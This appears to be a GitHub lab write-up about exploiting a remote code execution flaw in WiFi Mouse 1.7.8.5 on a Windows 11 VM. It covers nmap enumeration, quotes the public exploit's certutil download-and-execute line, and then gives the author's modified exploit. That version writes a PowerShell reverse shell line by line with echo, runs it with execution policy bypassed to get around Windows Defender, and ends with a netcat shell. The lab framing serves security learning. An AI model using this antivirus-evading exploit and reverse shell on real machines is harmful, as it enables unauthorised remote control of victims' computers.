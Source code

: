 # WiFi Mouse 1.7.8.5 - Remote Code Execution

Lab to learn more on the [WiFi Mouse 1.7.8.5 - Remote Code Execution](https://www.exploit-db.com/exploits/50972) exploit.

## Lab environment

**Target**

- VM running Microsoft Windows 11 Pro - 10.0.22000 N/A Build 22000
- Windows Defender - enabled
- WiFi Mouse 1.7.8.5 [download](https://www.exploit-db.com/apps/46b494c56615f48dd09065108d604762-MouseServer.exe)
- Windows Firewall - Allow traffic for `MouseServer.exe` - ref. TCP Port 1978
- IP 172.20.63.92

**Attacker**

- VM Kali Linux
- IP 172.20.61.115

## Enumeration
---

Nmap finds port `1978/tcp` open, but does not recognize the service using it.

```nginx
$ nmap -p 1978 -v -sC -sV -oA nmap/WiFiMouse 172.20.63.92
...
ORT     STATE SERVICE VERSION
1978/tcp open  unisql?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, Help, JavaRMI, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, NCP, NULL, NotesRPC, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, WMSRequest, X11Probe, afp, giop, ms-sql-s, oracle-tns: 
|_    system windows 6.2
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port1978-TCP:V=7.93%I=7%D=10/16%Time=634C8FA3%P=x86_64-pc-linux-gnu%r(N
SF:ULL,13,"system\x20windows\x206\.2\n")%r(GenericLines,13,"system\x20wind
SF:ows\x206\.2\n")%r(GetRequest,13,"system\x20windows\x206\.2\n")%r(HTTPOp
SF:tions,13,"system\x20windows\x206\.2\n")%r(RTSPRequest,13,"system\x20win
SF:dows\x206\.2\n")%r(RPCCheck,13,"system\x20windows\x206\.2\n")%r(DNSVers
SF:ionBindReqTCP,13,"system\x20windows\x206\.2\n")%r(DNSStatusRequestTCP,1
SF:3,"system\x20windows\x206\.2\n")%r(Help,13,"system\x20windows\x206\.2\n
SF:")%r(SSLSessionReq,13,"system\x20windows\x206\.2\n")%r(TerminalServerCo
SF:okie,13,"system\x20windows\x206\.2\n")%r(TLSSessionReq,13,"system\x20wi
SF:ndows\x206\.2\n")%r(Kerberos,13,"system\x20windows\x206\.2\n")%r(SMBPro
SF:gNeg,13,"system\x20windows\x206\.2\n")%r(X11Probe,13,"system\x20windows
SF:\x206\.2\n")%r(FourOhFourRequest,13,"system\x20windows\x206\.2\n")%r(LP
SF:DString,13,"system\x20windows\x206\.2\n")%r(LDAPSearchReq,13,"system\x2
SF:0windows\x206\.2\n")%r(LDAPBindReq,13,"system\x20windows\x206\.2\n")%r(
SF:SIPOptions,13,"system\x20windows\x206\.2\n")%r(LANDesk-RC,13,"system\x2
SF:0windows\x206\.2\n")%r(TerminalServer,13,"system\x20windows\x206\.2\n")
SF:%r(NCP,13,"system\x20windows\x206\.2\n")%r(NotesRPC,13,"system\x20windo
SF:ws\x206\.2\n")%r(JavaRMI,13,"system\x20windows\x206\.2\n")%r(WMSRequest
SF:,13,"system\x20windows\x206\.2\n")%r(oracle-tns,13,"system\x20windows\x
SF:206\.2\n")%r(ms-sql-s,13,"system\x20windows\x206\.2\n")%r(afp,13,"syste
SF:m\x20windows\x206\.2\n")%r(giop,13,"system\x20windows\x206\.2\n");
...
```
I took the opportunity to submit the fingerprint to nmap. I hope they can use it to update their database. This could facilitate the software identificatio.

Another approach to identify what could be running on this port is checking on the internet. If we search for `port 1978 exploit` we see a few links related to **mouse** exploit.

![Internet search](images/WiFiMouse_internet_search.png)

## Exploitation
---

[WiFi Mouse 1.7.8.5 - Remote Code Execution](https://www.exploit-db.com/exploits/50972) exploit.

Reading the exploit available on exploit-db, we can understand that the code will try to open `cmd.exe` on the target and write a command to donwload a payload, and then run it.

```python
def exploit():
	...
	openCMD()
	...
	SendString("certutil.exe -urlcache -f http://" + lhost + "/" + payload + " C:\\Windows\\Temp\\" + payload)
	SendReturn()
	...
	SendString("C:\\Windows\\Temp\\" + payload)
	SendReturn()
	...
```
However, on all my attempts to execute it (with different payloads), Windows Defender blocked the downloads.

![Defender](images/WiFiMouse_defender.png)

Instead of trying to disable the antivirus, I decided to see what I could do without touching Defender.


After trying some options, an interesting idea came to my mind. I would try to use `echo`, directly on the target, to write a PowerShell script during the exploit execution. The new `.ps1` script would open a reverse shell with our attacker machine.

```python
def exploit():
	...
	openCMD()
	...
	SendString("echo $c = New-Object System.Net.Sockets.TCPClient('" + lhost + "','" + lport + "'); > C:\\Windows\\Temp\\revshell.ps1")
	SendReturn()
	SendString("echo $I = $c.GetStream();[byte[]]$U = 0..(2-shl15)^|%{0}; >> C:\\Windows\\Temp\\revshell.ps1")
	SendReturn()
	SendString("echo $U = ([text.encoding]::ASCII).GetBytes(\"Copyright (C) 2021 Microsoft Corporation. All rights reserved.`n`n\"); >> C:\\Windows\\Temp\\revshell.ps1")
	SendReturn()
	SendString("echo $I.Write($U,0,$U.Length); $U = ([text.encoding]::ASCII).GetBytes((Get-Location).Path + '^>'); $I.Write($U,0,$U.Length); >> C:\\Windows\\Temp\\revshell.ps1")
	SendReturn()
	SendString("echo while(($k = $I.Read($U, 0, $U.Length)) -ne 0){;$D = (New-Object System.Text.UTF8Encoding).GetString($U,0, $k); >> C:\\Windows\\Temp\\revshell.ps1")
	SendReturn()
	SendString("echo $a = (iex $D 2^>^&1 ^| Out-String ); $r  = $a + (pwd).Path + '^> '; $m = ([text.encoding]::ASCII).GetBytes($r); >> C:\\Windows\\Temp\\revshell.ps1")
	SendReturn()
	SendString("echo $I.Write($m,0,$m.Length); $I.Flush()}; $c.Close(); >> C:\\Windows\\Temp\\revshell.ps1")
	SendReturn()
	...
	SendString("powershell -nop -exec Bypass -File C:\\Windows\\Temp\\revshell.ps1")
	SendReturn()
	...
```

During playing with it, I found out that `echo` need special escape (^) to print a few special characters (& | < > ^).

```powershell
C:\>echo foo | bar
'bar' is not recognized as an internal or external command,
operable program or batch file.

C:\>echo foo ^| bar
foo | bar
```

I also noticed that, the Microsoft public documentation on the [echo](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/echo) command was missing the ampersand (&) character on the list of characters that needed especial escaping. I [open an issue](https://github.com/MicrosoftDocs/windowsserverdocs/issues/6814) on the documentation to suggest the change.


With the code ready, I openned a listner on Kali.

```nginx
$ nc -nlvp 4444 
listening on [any] 4444 ...
```

Then I executed the script

```nginx
$ python WiFiMouse_exploit.py 172.20.63.92 172.20.61.115 4444
[+] 3..2..1..
[+] *Wait while writing payload*
[+] Payload retrieved
[+] Invoking payload - Check Your Listener!
[-] Removing payload
[+] Done!
```
While the script was executing, we could see the following on the target screen (in my lab I have access to the target).

![CMD](images/WiFiMouse_cmd.png)

Back to Kali, we could see that we have a shell

```nginx
$ nc -nlvp 4444
listening on [any] 4444 ...
connect to [172.20.61.115] from (UNKNOWN) [172.20.63.92] 51596
Copyright (C) 2021 Microsoft Corporation. All rights reserved.

C:\Program Files (x86)\MouseServer.exe> 
```

## Final Considerations

Probably, there are many options to exploit this vulnerabiliy. This is only one of them :-) 

You can find the script I used [here](scripts/WiFiMouse_exploit.py)

## Links

- [Building a Vulnerable Box: RemoteMouse](https://warroom.rsmus.com/building-a-vulnerable-box-remotemouse/)
- [PowerShell Execution Argument Obfuscation (& How It Can Make Detection Easier!)](https://www.danielbohannon.com/blog-1/2017/3/12/powershell-execution-argument-obfuscation-how-it-can-make-detection-easier)
- [Analysis of a Threat: PowerShell Malicious Activity](https://www.blumira.com/analysis-of-a-threat-powershell-malicious-activity/)